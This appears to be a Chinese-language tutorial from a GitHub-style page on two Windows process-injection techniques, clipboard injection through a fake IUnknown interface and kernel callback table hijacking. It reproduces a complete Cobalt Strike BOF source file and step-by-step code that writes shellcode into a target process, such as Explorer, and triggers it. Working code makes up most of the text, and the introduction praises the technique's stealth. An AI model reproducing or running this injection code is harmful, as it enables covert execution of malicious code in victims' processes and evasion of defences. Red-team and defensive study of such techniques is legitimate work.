





# 剪切板进程注入

## 简介

利用剪切板实现进程注入是一种隐蔽的技术，它通过模拟Windows的Component Object Model (COM)接口来执行恶意代码。在这种方法中，攻击者首先选择一个目标进程，该进程具有与剪切板相关的窗口。接着，攻击者创建一个伪造的`IUnknown` COM接口，并将其`Release`方法指向恶意的shellcode。当目标进程尝试释放与剪切板相关的资源时，它会调用这个伪造接口的`Release`方法，从而触发并执行恶意代码。这种技术的巧妙之处在于它利用了Windows的正常功能和行为，从而在不引起任何可疑活动的情况下执行代码


## 实现流程

### 1.定义IUknown_t结构

首先定义了一个`IUknown_t`结构，用于模拟COM对象的`IUnknown`接口，其中的Release方法将在`WM_DESTROYCLIPBOARD`消息被处理时执行，这也为后续的shellcode执行埋下伏笔

```cpp
typedef struct _IUnknown_t {
    // a pointer to virtual function table
    ULONG_PTR lpVtbl;
    // the virtual function table
    ULONG_PTR QueryInterface;
    ULONG_PTR AddRef;
    ULONG_PTR Release;       // executed for WM_DESTROYCLIPBOARD
} IUnknown_t;
```


### 2.查找目标窗口并获取其PID

使用`FindWindowsExA`函数遍历所有具有`CLIPBRDWNDCLASS`类名的窗口，并打印与其关联的进程PID

```cpp
// Get the handle to the target process's window
do
{
    hWnd = USER32$FindWindowExA(HWND_MESSAGE, hWnd, "CLIPBRDWNDCLASS", NULL);
    if ( NULL == hWnd ) { break; }
    USER32$GetWindowThreadProcessId(hWnd, &dwProcessId);
    internal_printf("CLIPBRDWNDCLASS found in PID:%lu\n", dwProcessId);
}
while (dwProcessId != lpProcessInfo->dwProcessId);
if (NULL == hWnd)
{
    dwErrorCode = ERROR_INVALID_WINDOW_HANDLE;
    internal_printf("Failed to find a CLIPBRDWNDCLASS window handle for PID:%lu\n", lpProcessInfo->dwProcessId);
    goto end;
}
```


### 3.将IUnknown结构的Release方法指向shellcode

初始化IUnknown结构，其中Release方法指向写入的shellcode。然后将此结构写入目标进程的内存中

```cpp
// Create new IUnknown struct
intZeroMemory(&iUnknown, sizeof(iUnknown));
iUnknown.lpVtbl  = (ULONG_PTR)lpRemoteIUnknownBuffer + sizeof(ULONG_PTR);
iUnknown.Release = (ULONG_PTR)lpRemoteShellcodeBuffer;

// Write the new IUnknown to the remote buffer
dwErrorCode = NtWriteVirtualMemory(
    lpProcessInfo->hProcess, 
    lpRemoteIUnknownBuffer, 
    &iUnknown, 
    sizeof(iUnknown), 
    &RegionSize
);
```


### 4.触发Release方法执行shellcode

使用`USER32$SetPropA`函数将`IUnknown`结构设置为目标窗口的属性，随后发送`WM_DESTROYCLIPBOARD`消息到目标窗口，这将导致`Release`方法被执行(即执行shellcode)

```cpp
// Set the interface property
if ( FALSE == USER32$SetPropA(hWnd, "ClipboardDataObjectInterface", lpRemoteIUnknownBuffer) )
{
    dwErrorCode = KERNEL32$GetLastError();
    internal_printf("SetPropA failed (%lu)\n", dwErrorCode);
    goto end;
}

// Trigger execution
USER32$PostMessageA(hWnd, WM_DESTROYCLIPBOARD, 0, 0);
```


## BOF代码实现

以下代码源自TrustSec的Bof仓库：https://github.com/trustedsec/CS-Remote-OPs-BOF/tree/main

```cpp
#define _WIN32_WINNT 0x0600
#include <windows.h>
#include <winternl.h>
#include <stddef.h>
#include "beacon.h"
#include "bofdefs.h"
#include "ntdefs.h"
#include "base.c"
#include "injection.c"

typedef struct _IUnknown_t {
    // a pointer to virtual function table
    ULONG_PTR lpVtbl;
    // the virtual function table
    ULONG_PTR QueryInterface;
    ULONG_PTR AddRef;
    ULONG_PTR Release;       // executed for WM_DESTROYCLIPBOARD
} IUnknown_t;

DWORD clipboard(PROCESS_INFORMATION* lpProcessInfo, LPBYTE lpShellcodeBuffer, DWORD dwShellcodeBufferSize)
{
    DWORD  dwErrorCode = ERROR_SUCCESS;
    HWND hWnd = NULL;
    DWORD dwProcessId = 0;
    PHMOD hNTDLL = NULL;
    NtAllocateVirtualMemory_t NtAllocateVirtualMemory = NULL;
    NtReadVirtualMemory_t NtReadVirtualMemory = NULL;
    NtWriteVirtualMemory_t NtWriteVirtualMemory = NULL;
    NtFreeVirtualMemory_t     NtFreeVirtualMemory = NULL;
    SIZE_T RegionSize = 0;
    LPVOID lpRemoteShellcodeBuffer = NULL;
    LPVOID lpRemoteIUnknownBuffer = NULL;
    IUnknown_t iUnknown;
 
 /*
    internal_printf("hThread:               %p\n", lpProcessInfo->hThread);
    internal_printf("hProcess:              %p\n", lpProcessInfo->hProcess);
    internal_printf("dwProcessId:           %u\n", lpProcessInfo->dwProcessId);
    internal_printf("dwThreadId:            %u\n", lpProcessInfo->dwThreadId);
    internal_printf("lpShellcodeBuffer:     %p\n", lpShellcodeBuffer);
    internal_printf("dwShellcodeBufferSize: %lu\n", dwShellcodeBufferSize);
*/

    // Get the handle to the target process's window
    do
    {
        hWnd = USER32$FindWindowExA(HWND_MESSAGE, hWnd, "CLIPBRDWNDCLASS", NULL);
        if ( NULL == hWnd ) { break; }
        USER32$GetWindowThreadProcessId(hWnd, &dwProcessId);
        internal_printf("CLIPBRDWNDCLASS found in PID:%lu\n", dwProcessId);
    }
    while (dwProcessId != lpProcessInfo->dwProcessId);
    if (NULL == hWnd)
    {
        dwErrorCode = ERROR_INVALID_WINDOW_HANDLE;
        internal_printf("Failed to find a CLIPBRDWNDCLASS window handle for PID:%lu\n", lpProcessInfo->dwProcessId);
        goto end;
    }

    // Custom LoadLibrary on NTDLL
    hNTDLL = _LoadLibrary(NTDLL_PATH);
    if(NULL == hNTDLL) { goto end; }

    // Get the syscall addresses
    NtAllocateVirtualMemory = (NtAllocateVirtualMemory_t)GetSyscallStub(hNTDLL, "NtAllocateVirtualMemory");
    NtReadVirtualMemory = (NtReadVirtualMemory_t)GetSyscallStub(hNTDLL, "NtReadVirtualMemory");
    NtWriteVirtualMemory = (NtWriteVirtualMemory_t)GetSyscallStub(hNTDLL, "NtWriteVirtualMemory");
    NtFreeVirtualMemory = (NtFreeVirtualMemory_t)GetSyscallStub(hNTDLL, "NtFreeVirtualMemory");
    if ((NULL == NtAllocateVirtualMemory) || 
        (NULL == NtReadVirtualMemory) || 
        (NULL == NtWriteVirtualMemory) || 
        (NULL == NtFreeVirtualMemory)
    )
    {
        dwErrorCode = ERROR_PROC_NOT_FOUND;
        internal_printf("GetSyscallStub failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Allocate remote shellcode buffer
    RegionSize = dwShellcodeBufferSize + 1;
    dwErrorCode = NtAllocateVirtualMemory(
        lpProcessInfo->hProcess, 
        &lpRemoteShellcodeBuffer, 
        0, 
        &RegionSize, 
        MEM_COMMIT | MEM_RESERVE, 
        PAGE_EXECUTE_READWRITE
    );
    if (STATUS_SUCCESS != dwErrorCode)
    {
        internal_printf("NtAllocateVirtualMemory failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Write the shellcode to the remote buffer
    dwErrorCode = NtWriteVirtualMemory(
        lpProcessInfo->hProcess, 
        lpRemoteShellcodeBuffer, 
        lpShellcodeBuffer, 
        dwShellcodeBufferSize, 
        &RegionSize
    );
    if ( STATUS_SUCCESS != dwErrorCode )
    {
        internal_printf("NtWriteVirtualMemory failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Allocate the new IUnknown interface
    RegionSize = sizeof(iUnknown) + 1;
    dwErrorCode = NtAllocateVirtualMemory(
        lpProcessInfo->hProcess, 
        &lpRemoteIUnknownBuffer, 
        0, 
        &RegionSize, 
        MEM_COMMIT | MEM_RESERVE, 
        PAGE_READWRITE
    );
    if (STATUS_SUCCESS != dwErrorCode)
    {
        internal_printf("NtAllocateVirtualMemory failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Create new IUnknown struct
    intZeroMemory(&iUnknown, sizeof(iUnknown));
    iUnknown.lpVtbl  = (ULONG_PTR)lpRemoteIUnknownBuffer + sizeof(ULONG_PTR);
    iUnknown.Release = (ULONG_PTR)lpRemoteShellcodeBuffer;

    // Write the new IUnknown to the remote buffer
    dwErrorCode = NtWriteVirtualMemory(
        lpProcessInfo->hProcess, 
        lpRemoteIUnknownBuffer, 
        &iUnknown, 
        sizeof(iUnknown), 
        &RegionSize
    );
    if ( STATUS_SUCCESS != dwErrorCode )
    {
        internal_printf("NtWriteVirtualMemory failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Set the interface property
    if ( FALSE == USER32$SetPropA(hWnd, "ClipboardDataObjectInterface", lpRemoteIUnknownBuffer) )
    {
        dwErrorCode = KERNEL32$GetLastError();
        internal_printf("SetPropA failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Trigger execution
    USER32$PostMessageA(hWnd, WM_DESTROYCLIPBOARD, 0, 0);

    KERNEL32$Sleep(10);

end:
    // Free remote kernel callback table
    if (lpRemoteIUnknownBuffer)
    {
        NtFreeVirtualMemory(
            lpProcessInfo->hProcess, 
            lpRemoteIUnknownBuffer, 
            0, 
            MEM_RELEASE | MEM_DECOMMIT
        );
        lpRemoteIUnknownBuffer = NULL;
    }

    // Free remote shellcode?
    /*
    if (lpRemoteShellcodeBuffer)
    {
        NtFreeVirtualMemory(
            lpProcessInfo->hProcess, 
            lpRemoteShellcodeBuffer, 
            0, 
            MEM_RELEASE | MEM_DECOMMIT
        );
        lpRemoteShellcodeBuffer = NULL;
    }
    */

    return dwErrorCode;
}


#ifdef BOF
VOID go( 
	IN PCHAR Buffer, 
	IN ULONG Length 
) 
{
    DWORD   dwErrorCode = ERROR_SUCCESS;
	datap   parser;
    DWORD   dwPid = 0;
    LPBYTE  lpShellcodeBuffer = NULL;
    DWORD   dwShellcodeBufferSize = 0;
    PROCESS_INFORMATION processInfo;

    MSVCRT$memset(&processInfo, 0, sizeof(PROCESS_INFORMATION));
    
    // Get the arguments <PID> <SHELLCODE>
	BeaconDataParse(&parser, Buffer, Length);
    dwPid = BeaconDataInt(&parser);
    lpShellcodeBuffer = (LPBYTE) BeaconDataExtract(&parser, (int*)(&dwShellcodeBufferSize));
	
    if(!bofstart())
	{
		return;
	}

    // Get a handle to the injection process
    internal_printf("GetInjectionHandle( %lu )\n", dwPid);
    dwErrorCode = GetInjectionHandle( dwPid, &processInfo );
    if (ERROR_SUCCESS != dwErrorCode)
    {
        BeaconPrintf(CALLBACK_ERROR, "GetInjectionHandle failed: %lX\n", dwErrorCode);
		goto end;
    }

    // Execute our shellcode into the injection process
#ifndef __clang_analyzer__   
    internal_printf("clipboard( %02x %02x %02x %02x ..., %lu )\n", 
        lpShellcodeBuffer[0], lpShellcodeBuffer[1], lpShellcodeBuffer[2], lpShellcodeBuffer[3],
        dwShellcodeBufferSize
    );
#endif    
    dwErrorCode = clipboard(
        &processInfo, 
        lpShellcodeBuffer, 
        dwShellcodeBufferSize
    );
    if (ERROR_SUCCESS != dwErrorCode)
    {
        BeaconPrintf(CALLBACK_ERROR, "clipboard failed: %lX\n", dwErrorCode);
		goto end;
    }

    internal_printf("SUCCESS.\n");

end:

    // Clean up the injection process
    CloseInjectionHandle(&processInfo);

	printoutput(TRUE);
};
#else
```


## 运行演示

首次执行该项目你可能会执行失败，因为你挑选要注入的进程不一定与`CLIPBRDWNDCLASS`窗口类有关联，但是它接下来会打印能够利用剪切板实现进程注入的Pid

			


以下是对Explorer进程的注入，其Pid是4716，即上述打印出来的




# 内核回调表进程注入

## 简介

在Windows操作系统中，user32.dll维护了一个内核回调表，该表包含了一系列的函数指针，这些函数在特定的系统事件发生时被调用。

利用内核回调表进行进程注入的核心思路是修改目标进程的内核回调表，将其中的某个回调函数的地址修改为我们的shellcode，然后触发相应的系统事件，从而在目标进程中执行shellcode


## 实现流程

### 1.定义结构体

首先定义了一个结构体`KERNELCALLBACKTABLE`，这个结构体表示 `user32.dll` 中的内核回调表，其中每个回调函数都有一个对应的指针

```cpp
// user32.dll!apfnDispatch
typedef struct _KERNELCALLBACKTABLE_T {
    ULONG_PTR __fnCOPYDATA;
    ULONG_PTR __fnCOPYGLOBALDATA;
    ULONG_PTR __fnDWORD;
    ULONG_PTR __fnNCDESTROY;
    ULONG_PTR __fnDWORDOPTINLPMSG;
    ULONG_PTR __fnINOUTDRAG;
    ULONG_PTR __fnGETTEXTLENGTHS;
    ULONG_PTR __fnINCNTOUTSTRING;
    ULONG_PTR __fnPOUTLPINT;
    ULONG_PTR __fnINLPCOMPAREITEMSTRUCT;
    ULONG_PTR __fnINLPCREATESTRUCT;
    ULONG_PTR __fnINLPDELETEITEMSTRUCT;
    ULONG_PTR __fnINLPDRAWITEMSTRUCT;
    ULONG_PTR __fnPOPTINLPUINT;
    ULONG_PTR __fnPOPTINLPUINT2;
    ULONG_PTR __fnINLPMDICREATESTRUCT;
    ULONG_PTR __fnINOUTLPMEASUREITEMSTRUCT;
    ULONG_PTR __fnINLPWINDOWPOS;
    ULONG_PTR __fnINOUTLPPOINT5;
    ULONG_PTR __fnINOUTLPSCROLLINFO;
    ULONG_PTR __fnINOUTLPRECT;
    ULONG_PTR __fnINOUTNCCALCSIZE;
    ULONG_PTR __fnINOUTLPPOINT5_;
    ULONG_PTR __fnINPAINTCLIPBRD;
    ULONG_PTR __fnINSIZECLIPBRD;
    ULONG_PTR __fnINDESTROYCLIPBRD;
    ULONG_PTR __fnINSTRING;
    ULONG_PTR __fnINSTRINGNULL;
    ULONG_PTR __fnINDEVICECHANGE;
    ULONG_PTR __fnPOWERBROADCAST;
    ULONG_PTR __fnINLPUAHDRAWMENU;
    ULONG_PTR __fnOPTOUTLPDWORDOPTOUTLPDWORD;
    ULONG_PTR __fnOPTOUTLPDWORDOPTOUTLPDWORD_;
    ULONG_PTR __fnOUTDWORDINDWORD;
    ULONG_PTR __fnOUTLPRECT;
    ULONG_PTR __fnOUTSTRING;
    ULONG_PTR __fnPOPTINLPUINT3;
    ULONG_PTR __fnPOUTLPINT2;
    ULONG_PTR __fnSENTDDEMSG;
    ULONG_PTR __fnINOUTSTYLECHANGE;
    ULONG_PTR __fnHkINDWORD;
    ULONG_PTR __fnHkINLPCBTACTIVATESTRUCT;
    ULONG_PTR __fnHkINLPCBTCREATESTRUCT;
    ULONG_PTR __fnHkINLPDEBUGHOOKSTRUCT;
    ULONG_PTR __fnHkINLPMOUSEHOOKSTRUCTEX;
    ULONG_PTR __fnHkINLPKBDLLHOOKSTRUCT;
    ULONG_PTR __fnHkINLPMSLLHOOKSTRUCT;
    ULONG_PTR __fnHkINLPMSG;
    ULONG_PTR __fnHkINLPRECT;
    ULONG_PTR __fnHkOPTINLPEVENTMSG;
    ULONG_PTR __xxxClientCallDelegateThread;
    ULONG_PTR __ClientCallDummyCallback;
    ULONG_PTR __fnKEYBOARDCORRECTIONCALLOUT;
    ULONG_PTR __fnOUTLPCOMBOBOXINFO;
    ULONG_PTR __fnINLPCOMPAREITEMSTRUCT2;
    ULONG_PTR __xxxClientCallDevCallbackCapture;
    ULONG_PTR __xxxClientCallDitThread;
    ULONG_PTR __xxxClientEnableMMCSS;
    ULONG_PTR __xxxClientUpdateDpi;
    ULONG_PTR __xxxClientExpandStringW;
    ULONG_PTR __ClientCopyDDEIn1;
    ULONG_PTR __ClientCopyDDEIn2;
    ULONG_PTR __ClientCopyDDEOut1;
    ULONG_PTR __ClientCopyDDEOut2;
    ULONG_PTR __ClientCopyImage;
    ULONG_PTR __ClientEventCallback;
    ULONG_PTR __ClientFindMnemChar;
    ULONG_PTR __ClientFreeDDEHandle;
    ULONG_PTR __ClientFreeLibrary;
    ULONG_PTR __ClientGetCharsetInfo;
    ULONG_PTR __ClientGetDDEFlags;
    ULONG_PTR __ClientGetDDEHookData;
    ULONG_PTR __ClientGetListboxString;
    ULONG_PTR __ClientGetMessageMPH;
    ULONG_PTR __ClientLoadImage;
    ULONG_PTR __ClientLoadLibrary;
    ULONG_PTR __ClientLoadMenu;
    ULONG_PTR __ClientLoadLocalT1Fonts;
    ULONG_PTR __ClientPSMTextOut;
    ULONG_PTR __ClientLpkDrawTextEx;
    ULONG_PTR __ClientExtTextOutW;
    ULONG_PTR __ClientGetTextExtentPointW;
    ULONG_PTR __ClientCharToWchar;
    ULONG_PTR __ClientAddFontResourceW;
    ULONG_PTR __ClientThreadSetup;
    ULONG_PTR __ClientDeliverUserApc;
    ULONG_PTR __ClientNoMemoryPopup;
    ULONG_PTR __ClientMonitorEnumProc;
    ULONG_PTR __ClientCallWinEventProc;
    ULONG_PTR __ClientWaitMessageExMPH;
    ULONG_PTR __ClientWOWGetProcModule;
    ULONG_PTR __ClientWOWTask16SchedNotify;
    ULONG_PTR __ClientImmLoadLayout;
    ULONG_PTR __ClientImmProcessKey;
    ULONG_PTR __fnIMECONTROL;
    ULONG_PTR __fnINWPARAMDBCSCHAR;
    ULONG_PTR __fnGETTEXTLENGTHS2;
    ULONG_PTR __fnINLPKDRAWSWITCHWND;
    ULONG_PTR __ClientLoadStringW;
    ULONG_PTR __ClientLoadOLE;
    ULONG_PTR __ClientRegisterDragDrop;
    ULONG_PTR __ClientRevokeDragDrop;
    ULONG_PTR __fnINOUTMENUGETOBJECT;
    ULONG_PTR __ClientPrinterThunk;
    ULONG_PTR __fnOUTLPCOMBOBOXINFO2;
    ULONG_PTR __fnOUTLPSCROLLBARINFO;
    ULONG_PTR __fnINLPUAHDRAWMENU2;
    ULONG_PTR __fnINLPUAHDRAWMENUITEM;
    ULONG_PTR __fnINLPUAHDRAWMENU3;
    ULONG_PTR __fnINOUTLPUAHMEASUREMENUITEM;
    ULONG_PTR __fnINLPUAHDRAWMENU4;
    ULONG_PTR __fnOUTLPTITLEBARINFOEX;
    ULONG_PTR __fnTOUCH;
    ULONG_PTR __fnGESTURE;
    ULONG_PTR __fnPOPTINLPUINT4;
    ULONG_PTR __fnPOPTINLPUINT5;
    ULONG_PTR __xxxClientCallDefaultInputHandler;
    ULONG_PTR __fnEMPTY;
    ULONG_PTR __ClientRimDevCallback;
    ULONG_PTR __xxxClientCallMinTouchHitTestingCallback;
    ULONG_PTR __ClientCallLocalMouseHooks;
    ULONG_PTR __xxxClientBroadcastThemeChange;
    ULONG_PTR __xxxClientCallDevCallbackSimple;
    ULONG_PTR __xxxClientAllocWindowClassExtraBytes;
    ULONG_PTR __xxxClientFreeWindowClassExtraBytes;
    ULONG_PTR __fnGETWINDOWDATA;
    ULONG_PTR __fnINOUTSTYLECHANGE2;
    ULONG_PTR __fnHkINLPMOUSEHOOKSTRUCTEX2;
} KERNELCALLBACKTABLE;
```


### 2.获取目标进程的窗口句柄

通过遍历所有窗口并检查其进程ID，找到与目标进程ID匹配的窗口句柄

```cpp
// Get the handle to the target process's window
do
{
    hWnd = USER32$FindWindowExA(NULL, hWnd, NULL, NULL);
    if ( NULL == hWnd ) { break; }
    USER32$GetWindowThreadProcessId(hWnd, &dwProcessId);
}
while (dwProcessId != lpProcessInfo->dwProcessId);
if (NULL == hWnd)
{
    dwErrorCode = ERROR_INVALID_WINDOW_HANDLE;
    internal_printf("Failed to find a window handle for PID:%lu\n", lpProcessInfo->dwProcessId);
    goto end;
}
```


### 3.获取内核回调表地址

使用 `NtQueryInformationProcess` 和 `NtReadVirtualMemory` 从目标进程中读取其PEB（进程环境块），然后再从PEB中获取内核回调表的地址

```CPP
// Get the ProcessBasicInformation of the remote process
intZeroMemory(&processBasicInformation, sizeof(processBasicInformation));
dwErrorCode = NtQueryInformationProcess(
    lpProcessInfo->hProcess, 
    ProcessBasicInformation, 
    &processBasicInformation, 
    sizeof(processBasicInformation), 
    NULL
);
if ( STATUS_SUCCESS != dwErrorCode )
{
    internal_printf("NtQueryInformationProcess failed (%lu)\n", dwErrorCode);
    goto end;
}

// Read in the PEB from the remote process
intZeroMemory(&peb, sizeof(peb));
dwErrorCode = NtReadVirtualMemory(
    lpProcessInfo->hProcess, 
    processBasicInformation.PebBaseAddress, 
    &peb, 
    sizeof(peb), 
    &RegionSize
);
if ( STATUS_SUCCESS != dwErrorCode )
{
    internal_printf("NtReadVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}

// Read in the kernel callback table from the remote process
intZeroMemory(&kernelCallbackTable, sizeof(kernelCallbackTable));
dwErrorCode = NtReadVirtualMemory(
    lpProcessInfo->hProcess, 
    peb.KernelCallbackTable, 
    &kernelCallbackTable, 
    sizeof(kernelCallbackTable), 
    &RegionSize
);
if ( STATUS_SUCCESS != dwErrorCode )
{
    internal_printf("NtReadVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}
```


### 4.修改内核回调表

将内核回调表中的`__fnCOPYDATA`的地址修改为注入shellcode的地址，然后为注入的shellcode和新的内核回调表在目标进程中分配内存

```cpp
// Allocate remote shellcode buffer
RegionSize = dwShellcodeBufferSize + 1;
dwErrorCode = NtAllocateVirtualMemory(
    lpProcessInfo->hProcess, 
    &lpRemoteShellcodeBuffer, 
    0, 
    &RegionSize, 
    MEM_COMMIT | MEM_RESERVE, 
    PAGE_EXECUTE_READWRITE
);
if (STATUS_SUCCESS != dwErrorCode)
{
    internal_printf("NtAllocateVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}

// Write the shellcode to the remote buffer
dwErrorCode = NtWriteVirtualMemory(
    lpProcessInfo->hProcess, 
    lpRemoteShellcodeBuffer, 
    lpShellcodeBuffer, 
    dwShellcodeBufferSize, 
    &RegionSize
);
if ( STATUS_SUCCESS != dwErrorCode )
{
    internal_printf("NtWriteVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}

// Update the Kernel Callback Table to point to our shellcode
kernelCallbackTable.__fnCOPYDATA = (ULONG_PTR)lpRemoteShellcodeBuffer;

// Allocate the new Kernel Callback Table buffer
RegionSize = sizeof(kernelCallbackTable) + 1;
dwErrorCode = NtAllocateVirtualMemory(
    lpProcessInfo->hProcess, 
    &lpRemoteKernelCallbackTableBuffer, 
    0, 
    &RegionSize, 
    MEM_COMMIT | MEM_RESERVE, 
    PAGE_READWRITE
);
if (STATUS_SUCCESS != dwErrorCode)
{
    internal_printf("NtAllocateVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}

// Write the new Kernel Callback Table to the remote buffer
dwErrorCode = NtWriteVirtualMemory(
    lpProcessInfo->hProcess, 
    lpRemoteKernelCallbackTableBuffer, 
    &kernelCallbackTable, 
    sizeof(kernelCallbackTable), 
    &RegionSize
);
if ( STATUS_SUCCESS != dwErrorCode )
{
    internal_printf("NtWriteVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}
```


### 5.更新目标进程的PEB

将目标进程PEB中的内核回调表地址更新为新的内核回调表的地址

```cpp
// Update the PEB in the remote process to use the new kernel callback table
dwErrorCode = NtWriteVirtualMemory(
    lpProcessInfo->hProcess, 
    (PBYTE)processBasicInformation.PebBaseAddress + offsetof(intPEB, KernelCallbackTable), 
    &lpRemoteKernelCallbackTableBuffer, 
    sizeof(ULONG_PTR), 
    &RegionSize
);
if ( STATUS_SUCCESS != dwErrorCode )
{
    internal_printf("NtWriteVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}
```


### 6.触发注入的代码

通过发送 `WM_COPYDATA` 消息到目标进程的窗口，触发 `__fnCOPYDATA` 事件，从而执行注入的shellcode

```cpp
// Trigger the COPYDATA kernel callback function
intZeroMemory(&copyDataStruct, sizeof(copyDataStruct));
copyDataStruct.dwData = 1;
copyDataStruct.cbData = 4;
copyDataStruct.lpData = &RegionSize;
USER32$SendMessageA(hWnd, WM_COPYDATA, (WPARAM)hWnd, (LPARAM)&copyDataStruct);
```


### 7.恢复原始状态

执行完注入的代码后，将目标进程PEB中的内核回调表地址恢复为原始地址

```cpp
// Restore the original kernel callback table
dwErrorCode = NtWriteVirtualMemory(
    lpProcessInfo->hProcess, 
    (PBYTE)processBasicInformation.PebBaseAddress + offsetof(intPEB, KernelCallbackTable), 
    &peb.KernelCallbackTable, 
    sizeof(ULONG_PTR), 
    &RegionSize
);
